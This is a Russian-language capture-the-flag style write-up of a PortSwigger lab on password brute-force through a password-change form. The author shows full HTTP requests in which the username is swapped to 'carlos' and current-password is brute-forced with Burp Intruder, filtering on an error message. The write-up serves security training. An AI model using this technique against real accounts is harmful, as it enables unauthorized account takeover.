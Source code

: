```yaml
---
title: "Password brute-force via password change"
date: 2025-09-25
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change"
classes: wide
---
```


Для решения лабы нужно подобрать пароль для учетной записи `carlos`. Для входа в нашу учетную запись есть данные `wiener`:`peter`.

```
https://0a8500a30387741780671273009f0087.web-security-academy.net/
```

## Solution

Как всегда начну с осмотра страницы.

После того, как я зашел в свой аккаунт, я нашел форму для смены пароля. Вот `HTTP`-запрос, который для этого используется:

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=wTJv7cU5bzvDRXqcZ4JOr9mJQ4Rpmj13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account/
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

Так, а что будет, если ввести неправильный пароль? Попробую:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/1.png){: height="200" .align-center}

Хех, на меня обиделись. Подождем-с... После не хитрых манипуляций я обнаружил следующее: eсли мы вводим неверный пароль в поле `current-password`, то нас выкидывает на форму ввода пароля, а затем блокирует попытки ввода. Но если мы заполним это поле корректно, а значения `new-password-1` и `new-password-2` будут отличаться, то сайт вернет следующую ошибку:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/2.png){: height="200" .align-center}

Вот так выглядит сам запрос:

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=wTJv7cU5bzvDRXqcZ4JOr9mJQ4Rpmj13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account/
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

Но все это не имеет смыла, если не получится заменить имя в поле `username`)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/3.jpg){: height="200" .align-center}

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=MUllgmU7TYrHlt3H53Bq2YfXIgr0TNhg; session=3qG31h62rRMonzEd2NtHF04ydCOBjU5b
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&current-password=peter&new-password-1=111&new-password-2=222
```

Огонь:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/4.png){: height="200" .align-center}

Закину запрос в `Inruder`, чтобы попытаться перебрать пароли. Составлю атаку `Sniper` со [списом паролей](https://portswigger.net/web-security/authentication/auth-lab-passwords):

```http
POST /my-account/change-password HTTP/2
Host: 0a8500a30387741780671273009f0087.web-security-academy.net
Cookie: session=MUllgmU7TYrHlt3H53Bq2YfXIgr0TNhg; session=3qG31h62rRMonzEd2NtHF04ydCOBjU5b
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8500a30387741780671273009f0087.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0a8500a30387741780671273009f0087.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&current-password=§passwd§&new-password-1=111&new-password-2=222
```

Чтобы найти нужный пароль, применю фильтр по строке `New passwords do not match`. А вот:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/5.png){: height="200" .align-center}

Пароль подошел:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_brute-force_via_password_change/6.png){: height="200" .align-center}
